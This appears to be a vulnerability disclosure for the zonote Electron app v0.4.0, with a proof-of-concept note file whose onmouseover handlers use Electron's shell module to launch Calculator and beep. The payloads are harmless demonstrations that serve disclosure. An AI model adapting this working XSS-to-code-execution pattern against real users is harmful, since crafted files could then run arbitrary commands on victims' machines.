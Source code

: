 [zonote](https://github.com/zonetti/zonote) allows XSS via crafted note, with resultant Remote Code Execution (because Node.js integration is enabled).

## Steps to exploit the vulnerability

1. Download any zonote [affected version](https://github.com/zonetti/zonote/releases/tag/v0.4.0)
2. Open zonote app
3. Import xss-rce.znt in zonote via Menu > Open
4. Hover over the different links in imported notes

```
xss-rce.znt
znt-note|0,15,264,213,200,0
<a onmouseover="try{ const {shell} = require('electron'); console.log({shell}); shell.openPath('/System/Applications/Calculator.app')}catch(e){alert(e)}">Remote Code Execution - Open MacOS Calculator</a>

znt-note|0,315,266,215,200,0
<a onmouseover="try{ const {shell} = require('electron'); shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}">Remote Code Execution - Open Windows Calculator</a>

znt-note|0,12,1,200,200,0
<a onmouseover="alert('XSS!')">Hover to show XSS</a>

znt-note|0,324,2,200,200,0
<a onmouseover="try{ const {shell} = require('electron'); console.log({shell}); shell.beep()}catch(e){alert(e)}">Hover to show access to Electron shell module by playing a beep sound</a>
```
